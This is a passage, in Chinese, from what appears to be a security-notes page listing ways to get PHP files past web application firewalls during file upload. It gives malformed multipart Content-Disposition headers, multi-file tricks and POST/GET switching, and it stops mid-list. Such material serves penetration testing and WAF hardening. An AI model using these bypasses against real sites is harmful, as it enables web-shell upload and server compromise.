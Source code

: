 ```
Content-Disposition: form-data; name="file";;filename="445.php";
```

####协议解析不正确-未解析所有文件

4.multipart协议中，一个POST请求可以同时上传多个文件。许多WAF只检查第一个上传文件，没有检查上传的所有文件，而实际后端容器会解析所有上传的文件名，攻击者只需把paylaod放在后面的文件部分，即可绕过。

```
Content-Disposition: form-data; name="file"; filename="445.gif"（正常文件）
Content-Disposition: form-data; name="file"; filename="445.php"（payload）
```

####协议解析不一致-文件名解析兼容性

5.multipart协议中，文件名的形式为filename="abc.php"。但是Tomcat、PHP等容器解析协议时会做一些兼容，能正确解析 

```
Content-Disposition: form-data; name="file"; filename=abc.php（不加双引号）
Content-Disposition: form-data; name="file"; filename="abc.php（只加一个双引号）
Content-Disposition: form-data; name="file"; filename='abc.php'（使用单引号）
...
```

 而WAF只按照协议标准去解析，无法解析文件名，但是后端容器能正确获得文件名，从而导致被绕过。

 6.POST/GET
有些WAF的规则是：如果数据包为POST类型，则校验数据包内容。
此种情况可以上传一个POST型的数据包，抓包将POST改为GET。

7.利用waf本身缺陷

1.删除实体里面的Conten-Type字段。第一种是删除Content整行，第二种是删除C后面的字符。删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php。
正常包：

```
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"
Content-Type: image/png
```

构造包：

```
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
```

8.删除Content-Disposition字段里的空格

```
Content-Disposition: 空格form-data; name="image"; 
```

增加一个空格导致安全狗被绕过案列：

```
Content-Type: multipart/form-data; boundary=—————————4714631421141173021852555099
```

尝试在boundary后面加个空格或者其他可被正常处理的字符：
